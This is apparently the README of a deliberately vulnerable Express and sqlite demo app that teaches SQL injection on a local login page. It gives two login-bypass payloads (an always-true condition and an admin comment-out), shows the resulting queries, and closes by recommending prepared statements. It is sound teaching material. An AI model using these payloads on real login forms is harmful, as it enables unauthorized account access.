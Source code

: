 # SQL injection with Express and sqlite

This application is a demonstration prototype just to show how to perform SQLi attack.

## Install

* Install nodejs

* Install dependencies

```console
$ npm install
```

* Start application

```console
$ npm start
```

## Tutorial

### Always True SQLi

Open http://localhost:3000/ and log in with:

* username: ' or '1'='1
* password: ' or '1'='1

```
SELECT name FROM user where username = '' or '1'='1' and password = '' or '1'='1'
```

You are now log in as "User", but you can do better!

### SQLi with comment

Open http://localhost:3000/ and log in with:

* username: admin'--
* password: a

```
SELECT name FROM user where username = 'admin' --' and password = 'a'
```

You are now log in as "Admin"

### Fix it

use prepared statement
